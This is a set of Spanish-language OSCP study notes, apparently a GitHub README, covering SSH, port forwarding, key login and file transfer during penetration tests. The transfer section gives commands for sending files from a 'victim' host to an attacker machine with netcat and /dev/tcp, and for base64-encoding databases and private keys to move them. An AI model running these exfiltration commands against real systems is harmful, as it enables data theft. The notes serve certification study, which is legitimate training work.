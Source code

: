 # Apuntes-OSCP

## SSH
```bash
 ssh -p22 usuario@host_remoto
```
#### reenvio de puertos
```bash
 ssh -L [PUERTO_LOCAL]:[HOST_REMOTO]:[PUERTO_REMOTO] usuario@host_remoto
```
#### Inicio de sesion con id_rsa
El id_rsa debe tener el siguiente permiso
```bash
 chmod 600 id_rsa
```
```bash
 ssh -i id_rsa usuario@host_remoto
```
## Transferencia de archivos
* `SCP`
* `find / -name 'sbd*'`
Traer el archivo a mi maquina con scp
```bash
 scp target_user@IP_remota:/ruta/completa/al/archivo .
```
* `NC` 
Es util cuando no dispongo de la contraseña
</br>en la maquina victima
```bash
nc 19.10.10.10 9091 < archivo
```
luego en mi maquina
```bash
nc -lvnp 9091 > archivo
```
Otra Alternativa es
```bash
cat file.txt > /dev/tcp/192.168.1.23/4444 # on victim linux
```
```bash
nc -lvp 4444 > file.txt # on Kali
```
* `BASE64` 
Cuando el archivo no es texto plano, ej: una BD, un id_rsa entonces
Tenemos (2) formas
1.
```bash
base64 filename.db > outputfile.db.b64
```
2. 
```bash
echo -n 'texto' | base64
```
Luego en mi maquina
```bash
base64 -d encodedfile.db.b64 > outputfile.db
```

